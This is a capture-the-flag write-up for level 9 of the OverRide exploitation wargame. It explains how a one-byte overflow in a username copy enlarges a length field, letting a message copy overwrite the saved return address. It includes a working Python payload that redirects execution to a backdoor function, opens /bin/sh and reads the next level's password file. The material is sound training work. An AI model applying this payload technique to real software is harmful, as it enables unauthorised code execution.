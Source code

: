 # Level09

Running this binary gives us a `username` and `message` prompts, both using `fgets()`.		
After disassembling we notice a `secret_backdoor()` function that will run any system command we provide but it is not part of he execution flow. 		
From this we can assume we will have to overwrite an `EIP` save and redirect to it.		

The strings received by the program for the username and message prompts are handled by `set_username()` and `set_msg()` functions respectively and are then stored inside the following structure:		
```c
typedef struct s_message
{
    char text[140];		// message destination
    char username[40];		// username destination
    int len;			// 140
} t_message;
```

Both functions use local buffers to store each result of `fgets()` before copying it into the main structure. 		
They use two different methods to make this copy:		
- `set_msg()` uses `strncpy()` and the `s_message->len` as size parameter. 
- `set_username()` copies the characters one by one from the local buffer to `s_message->username` using a loop and index.		

The copy loop in `set_username()` is repeated 41 times, this means we have a 1 byte overflow that allows us to overwrite the first (biggest) byte of `s_message->len`, and in turn change the size parameter for the `strncpy()` call in `set_msg()` to any value from 0 to 256.		

If the `EIP` save is less than 248 bytes after our `s_message->text` buffer (this binary is 64 bit so we need 8 bytes to write the address) we can exploit this 1 byte overflow to take control of the execution flow.		

The buffer starts in `rbp - 0xc0 (192)` and there is a single `push rbp` (8), this means the `EIP` save is at `buffer + (192 + 8)`. 		

All that is left is to get the address for `secret_backdoor()` and write our command:		
```bash
python -c "print 40 * 'a' + '\xd4' + '\n' + 'a' * 200 + '\x00\x00\x55\x55\x55\x55\x48\x8c'[::-1] + '/bin/sh'" > /tmp/inj09
level09@OverRide:~$ cat /tmp/inj09 - | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```
